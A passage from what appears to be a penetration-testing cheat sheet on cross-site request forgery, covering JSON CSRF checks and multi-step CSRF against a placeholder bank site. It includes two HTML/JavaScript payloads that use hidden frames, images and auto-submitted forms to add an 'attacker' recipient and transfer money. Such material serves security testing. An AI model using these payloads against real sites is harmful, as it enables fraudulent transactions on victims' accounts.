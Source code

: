         ```
    - Identification techniques:
      - Test if API accepts form submissions instead of JSON
      - Check if Content-Type is strictly validated
      - Verify if JSON endpoints check Origin/Referer headers
      - Test for Array Wrapper and other JSON bypass techniques

  - **Multi-step CSRF**
    - Characteristics:
      - Chains multiple requests to bypass partial protections
      - Exploits workflow design flaws in multi-stage processes
      - Harder to detect through automated scanning
      - Often targets complex business processes
    - Attack vectors:
      - Sequential form submissions:
        ```html
        <iframe id="frame1" src="https://bank.com/transfer-step1" style="display:none"></iframe>
        <script>
          // Listen for first frame to load, then extract data and submit second step
          document.getElementById("frame1").onload = function() {
            // Extract token or state from first response
            var token = this.contentWindow.document.querySelector('input[name="token"]').value;
            // Submit second step with captured token
            var xhr = new XMLHttpRequest();
            xhr.open("POST", "https://bank.com/transfer-step2", true);
            xhr.withCredentials = true;
            xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            xhr.send("token=" + token + "&recipient=attacker&amount=1000&confirm=true");
          };
        </script>
        ```
      - Pre-staging attack parameters:
        ```html
        <!-- Step 1: Set up transfer recipient -->
        <img src="https://bank.com/add-recipient?name=attacker&account=12345" style="display:none">
        <!-- Step 2: Execute transfer after delay -->
        <script>
          setTimeout(function() {
            var form = document.createElement("form");
            form.action = "https://bank.com/quick-transfer";
            form.method = "POST";
            form.innerHTML = '<input name="savedRecipient" value="attacker"><input name="amount" value="1000">';
            document.body.appendChild(form);
            form.submit();
          }, 2000);
        </script>
        ```
    - Identification techniques:
      - Map application workflows and identify dependencies
      - Test if later stages validate the completion of earlier stages
      - Check if tokens from one stage can be reused in another
      - Analyze if parameters from previous steps can be modified

